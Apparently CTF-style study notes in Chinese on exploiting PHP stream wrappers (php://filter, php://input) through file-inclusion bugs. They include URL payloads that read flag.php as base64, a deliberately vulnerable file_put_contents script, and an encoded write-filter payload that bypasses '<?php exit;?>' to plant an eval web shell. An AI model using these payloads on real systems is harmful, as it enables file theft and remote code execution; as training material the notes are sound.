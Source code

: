 可以应用于

- file_get_contents
- readfile

## php://filter

读取文件

```powershell
/lfi.php?file=php://filter/convert.base64-encode/resource=flag.php
/lfi.php?file=php://filter/read=convert.base64-encode/resource=flag.php
```

控制文件写入的处理逻辑

```php
<?php 
show_source(__FILE__); 
$c = "<?php exit;?>"; 
@$c.=$_GET['c']; 
@$filename = $_GET['file']; 
@file_put_contents($filename, $c); 
highlight_file('tmp.php'); 
?>
# 先对内容做base64-decode，然后再写入文件
php://filter/write=convert.base64-decode/resource=abc.php&c=0PD9waHAgQGV2YWwoJF9SRVFVRVNUWydoJ10pOz8%2B
# php 在做 base64_decode 的时候会自动去掉无法解析的字符<?php exit;?>会变成phpexit，因为base64是每4个字符进行解析的，因此前面加上任意字符补全，注意如果base64里面有+号，要记得 urlencode
```

利用伪协议就可以绕过 php 的 is_file，然后读取文件

```php
$a = '123.php';
$b = 'php://filter/resource=123.php';
// boolean true
var_dump(is_file($a));
// boolean false
var_dump(is_file($b));
```

## php://input

写入文件， 数据在body那边传过去，可以用GET，也可以用 POST 传过去

```powershell
/test.php?file=php://input
```

将 user 用 body 传过去，注意 body 那边不是表单的形式，是直接把 body 的数据整个提交

```powershell
GET /?user=php://input HTTP/1.1
Host: 10.255.10.157:8087
Content-Length: 17

the user is admin
```
